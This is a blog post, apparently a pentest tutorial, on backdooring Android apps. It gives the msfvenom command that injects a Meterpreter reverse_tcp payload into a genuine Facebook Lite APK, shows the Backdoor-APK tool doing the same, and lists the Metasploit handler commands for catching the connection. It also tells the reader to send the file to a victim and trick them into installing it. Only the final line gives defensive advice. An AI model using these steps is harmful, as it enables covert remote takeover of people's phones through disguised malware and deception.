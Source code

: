 ```yaml
---
layout: post
title: Injecting Backdoor in Android Application (APK)
category: Pentest
tags: apktool msfvenom backdoor-apk meterpreter
---
```


Lets assuming that we have created an APK with reverse shell payload and somehow installed it on victim's phone, which upon execution would establish a direct connection to the victim's phone.

Since the generated APK only contains the payload that doesn't do anything when clicked and even the size would be in KB's which looks very much suspicious and the victim would uninstall it immediately or doesn't even install it.

In order to make the app look legit, we would inject our meterperter reverse shell payload in genuine android apps like facebook, adobe reader, whatsapp. This way the app appears to be legit which the victim installs and gets what he expected... we get the shell..:-)



----

### Prerequisites:
<ul>
<li>In this article, we'd be using 64bit kali linux to build our backdoored APK. Before we start make sure below listed packages are being installed in the machine, if not execute below command from the terminal:
{% highlight python %}
apt-get install lib32stdc++6 lib32ncurses5 lib32z1
{% endhighlight %} </li>
<img src="{{ site.baseurl }}/public/android01.jpg">

<li>Apktool, this utility does come with kali linux if not check and update it. To install/update "apktool" following the instruction  <a href="https://ibotpeaches.github.io/Apktool/install/" target="_blank">@ibotpeaches</a>
{% highlight python %}
apktool -v    #Check apktool version
{% endhighlight %} </li>
</ul>


----

### Ways to Inject an Android APK File

<div class="message">
Ther are different ways to inject our backdoor into an APK, we'll be using below listed utilities to build our malicious APK allowing an attacker to compromise victim's phone remotely
<ul>
<li>MSFvenom</li>
<li>Backdoor-APK</li>
</ul>
</div>

<strong> Injecting Payload with msfveom </strong>

Assuming we already have a downloaded android apk, we use it as a template to inject our reverse shell. Below command would allow us to inject the backdoor into original apk, which upon execution connects back to the IP specified within the payload.

{% highlight python %}
msfvenom --platform android -x facebook_lite.apk -p android/meterpreter/reverse_tcp LHOST=192.168.11.187 LPORT=4444 -o facebook_lite_bc.apk
{% endhighlight %}
<img src="{{ site.baseurl }}/public/fblite01.jpg">


Now that we have our APK ready with the injected reverse shell payload, all you have to do is send the file to the victim and trick him to install the app.

<img src="{{ site.baseurl }}/public/f00.jpg">
<img src="{{ site.baseurl }}/public/f01.jpg">

On the other hand keep the listener ready for the incoming connection using metasploit exploit/multi/handler. Once the victim installs and opens the app we would get a shell spawned.


<img src="{{ site.baseurl }}/public/shell01.jpg">



----
<strong> Injecting Payload with "Backdoor-APK" </strong>

Another utility that can be used in backdooring an android app is "Backdoor-APK". Behind the scene, this utility uses "msfvenom" and does the same by automating the process making it much easier to inject the payload into android APK and can be downloaded from github repository.
{% highlight python %}
git clone https://github.com/dana-at-cp/backdoor-apk.git
{% endhighlight %}
<img src="{{ site.baseurl }}/public/bc01.jpg">



Having the downloaded Original APK and Backdoor-APK in same folder, execute the below command in the terminal which will prompt you to select the payload and details of the connect back IP and Port.
{% highlight python %}
./backdoor-apk.sh facebook_lite.apk
{% endhighlight %}
<img src="{{ site.baseurl }}/public/bc02.jpg">


Once the required details are been provided, utility start injecting the reverse shell payload within the APK.

<img src="{{ site.baseurl }}/public/bc03.jpg">

On the other hand start the listener for incoming connection using metasploit multi handler.
{% highlight python %}
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 192.168.11.187
set lport 4444
exploit
{% endhighlight %}

As expected we would have our final backdoored APK ready in "backdoor-apk -> original -> dist" folder, which we send to the victim and trick him to install it.

<img src="{{ site.baseurl }}/public/bc04.jpg">


Once the victim installs and opens the app we would receive a meterpreter session.

<img src="{{ site.baseurl }}/public/f02.jpg">
----


### Conclusion

Its is highly recommended to not to download and install apps from unknown sources and never enable the option "install from unkown sources" under "Setting -> Security".
Install proper antivirus and make sure you never download or click url's from unkown sources.

----
